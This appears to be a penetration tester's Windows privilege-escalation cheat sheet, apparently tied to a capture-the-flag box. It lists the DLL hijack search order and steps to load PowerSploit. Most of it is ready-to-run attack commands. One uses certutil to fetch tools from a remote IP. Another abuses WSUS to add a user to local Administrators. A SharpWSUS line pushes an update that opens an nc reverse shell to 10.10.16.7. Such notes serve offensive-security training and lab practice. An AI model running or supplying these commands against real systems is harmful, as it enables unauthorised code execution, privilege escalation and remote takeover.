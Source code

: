 ### DLL Hijack
Current listing of where the DLL is loaded from, DLL search order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

# Importing Powersploit Module

#Requires PowerUp

$ENV:PSModulePath
mkdir C:\Users\%username%\Documents\WindowsPowershell\Modules
cd C:\Users\%username%\Documents\WindowsPowershell\Modules
#Copy Powersploit to modules directory
certutil -urlcache -split -f http://10.0.0.1/powersploit-master.zip

#unpack zip
Expand-archive Powersploit-master.zip
cd into folder
import-module .\Powerspolit.psd1=
#Confirm that Powerspolit is listed

get-module

### WSUS Administrators:
https://github.com/GoSecure/WSuspicious?tab=readme-ov-file
https://gosecure.ai/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/
https://www.lrqa.com/en/cyber-labs/introducing-sharpwsus/

`WSuspicious.exe /command:" -accepteula -s -d -cmd /c ""net localgroup Administrators sflowers /add""" /autoinstall`

#### SharpWSUS:
Find the server: `SharpWSUS.exe locate`
Enumerate server: `SharpWSUS.exe inspect`
Create NC payload: `sharp.exe create /payload:"C:\temp\PsExec64.exe" /args:"-accepteula -s -d C:\temp\nc.exe -e cmd.exe 10.10.16.7 1234" /title:"man1"`
Then approve: `sharp.exe approve /updateid:ecec08bd-456d-4dc4-b3f4-6901c658e76c /computername:dc.outdated.htb /groupname:"kech"`
